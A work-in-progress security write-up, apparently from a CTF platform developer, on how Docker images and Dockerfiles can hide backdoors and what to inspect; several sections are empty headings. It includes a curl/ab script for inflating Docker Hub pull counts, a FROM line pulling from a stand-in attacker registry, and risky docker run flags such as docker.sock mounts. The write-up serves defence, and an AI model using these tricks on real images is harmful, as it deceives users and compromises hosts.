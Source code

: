 # (WIP) Research on docker backdooring
Pantelis Roditis (09/07/2020)

As the main developer of echoCTF.RED, I have to develop docker containers quite
often that will be used as targets or challenges.

This leads to the unavoidable search on docker hub and github for docker images
and dockerfiles that may give be a hint on how to implement them my self.

During this time I have come across a load of different types of suspicious
docker images and repositories.

Just like any other software you download from the internet use common logic
and critical thinking. Do NOT blindly trust a docker image, simply because it
can be found on docker hub.

This document includes research on some of the docker features that can be
abused in just the right way to make them look innocent, and advice on what you
can inspect to determine if an image does good or bad.

This list is in no means complete, these include just some of the things that
I look for, when inspecting docker images.

Some of the mentioned details i have seen by accident while browsing docker hub
and some came as a realization after reading hundreds of dockerfiles.

## Docker Hub stats
First and foremost don't trust stats provided by docker hub, these can be very easy to manipulate.

If an image for an obscure application has suspiciously high numbers of pulls/stars then something might be fishy.

The pulls in particularly can be so easily abused that it takes less than a minute to make an image have thousands of pulls.

My favorite method is to use **ab** but **curl** can also work. Check the examples to get a better idea.

```sh
name="repo/image"
token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
curl -s -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest" >/dev/null
# or
ab -n 50 -c 10 -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest"
```

## `Dockerfile`
The truth is that almost every single statement that can be used on a `Dockerfile` can hide something sinister. The nature of docker images make it so that is quite hard to track and ensure that what is installed is clean of any malicious code.  


### The `FROM` statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

Usual tricks that can be found in this section include but not limited to the following.

### `FROM` Chaining
Another trick that I've seen be used is what I call the _FROM chaining_. This is for images that depend on another, that in turn depend on other etc. etc. All the images seem clean but somewhere in the midst of all those images there's the one that adds the backdoored bash or whatever.


#### Multi-stage builds
A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

#### Image with URL as part of name
One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```sh
FROM badregistry.attacker.io/repo/backdoor:latest
```

Upon building this image docker will connect to `badregistry.attacker.io:443` and attempt to fetch the image `repo/backdoor`



#### Unicode `FROM` image

Pay close attention at the FROM image names as Unicode characters can be used to make it look like it came from a legit repository.

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)

### The RUN statement

### The COPY/ADD statement

### The VOLUME statement

### The CMD statement

### The ENTRYPOINT statement

## The entrypoint.sh script

## Package manager repos
Pay attention at what package managers the container uses and ensure there are no bad repos in there.

System package managers can be manipulated to query specific repositories. You may see the common `RUN apt-get update && apt-get install bash`, but this `bash` package may be hosted on a non official repository.

It is always good to check the files for the package managers used. Whatever it may be (go, npm, yarn, pip, apt, apk, rpm, dnf) check the corresponding files used to find the packages.


## The docker run/create CLI params
Pay close attention at the docker parameters required to run the container. The parameters that usually make me suspicious follows.

### `--privileged` & `--cap-add`
The `--privileged` parameter gives extended privileges to the container. Be weary of images that require this flag, specifically when the image has no logical need for it, e.g. for a webapp there is no need for a privileged container.

```sh
docker run --privileged php bash
docker run -it --privileged=true --net=host --name=tcpdump -v /var/lib/mysql:/capture --rm alpine-tcpdump -i any -vvnn -w /capture/file_name /capture.pcap icmp
```

The `--cap-add` adds Linux capabilities. Pay attention at what type of capabilities are added and check online for what the capability provides. Just like before apply critical thinking, very few types of applications require you to mess with capabilities.

```sh
docker run --cap-add SYS_ADMIN -t -i --rm ubuntu bash
```


### `--v`
Maps docker volumes, a volume can be any file or directory. Pay attention at what kind of volumes and what locations those volumes represent.

Keep in mind that the existence of these parameters do not mean that an image is malicious. Many containers require these options to operate properly, apply common logic when you see these.

Pay attention when images
* require access to `docker.sock`, this is almost never a good idea. This allows full control of the host `dockerd`, is as if you're giving root access to your server
* variables with typos used for volumes (eg `$PWR` instead of `$PWD`). The shell will not complain and in some cases its not easy to spot.

```sh
docker run -v /var/run/docker.sock:/var/run/docker.sock badimage
docker run -v $PWR/etc:/etc badimage
```

## Refs
* https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet
* https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
